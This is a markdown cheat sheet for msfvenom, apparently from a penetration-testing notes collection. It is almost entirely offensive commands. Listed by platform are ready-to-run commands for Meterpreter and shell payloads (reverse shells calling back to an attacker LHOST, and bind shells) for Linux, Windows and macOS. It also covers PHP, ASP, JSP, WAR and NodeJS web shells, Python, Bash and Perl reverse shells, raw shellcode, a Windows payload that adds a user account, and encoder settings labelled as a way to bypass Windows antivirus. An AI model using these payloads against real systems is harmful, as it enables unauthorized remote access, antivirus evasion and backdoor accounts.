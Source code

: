 # MSFVenom

## List payloads
```bash
msfvenom -l
msfvenom -l encoders # lists encoders
```
## Useful parameters
```bash
-b "\x00\x0a\x0d" 
-f c 
-e x86/shikata_ga_nai -i 3 # Bypass Windows AV
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
```
## Binary Payloads
### Linux Meterpreter Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```
### Linux Bind Meterpreter Shell
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```
### Linux Bind Shell
```
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```
### Windows Meterpreter Reverse TCP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > FILENAME.exe
```
### Windows Reverse TCP Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > FILENAME.exe
```
### Windows Encoded Meterpreter Windows Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > FILENAME.exe
```
### Mac Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > FILENAME.macho
```
### Mac Bind Shell
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > FILENAME.macho
```
## Web payloads
### PHP Meterpreter Reverse TCP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
### ASP Meterpreter Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```
### JSP Java Meterpreter Reverse TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```
### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```
### NodeJS
```
msfvenom -p nodejs/shell_reverse_tcp LHOST<IP Address> LPORT=<Your Port> -f js > shell.js
```

## Scripting payloads
### Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```
### Bash Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
### Perl Unix Reverse shell
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```
## Shellcode
### Windows Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
### Linux Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
### Mac Reverse TCP Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
## Create user
```
msfvenom -p windows/adduser USER=<USER> PASS=<PASSWORD> -f exe > adduser.exe
```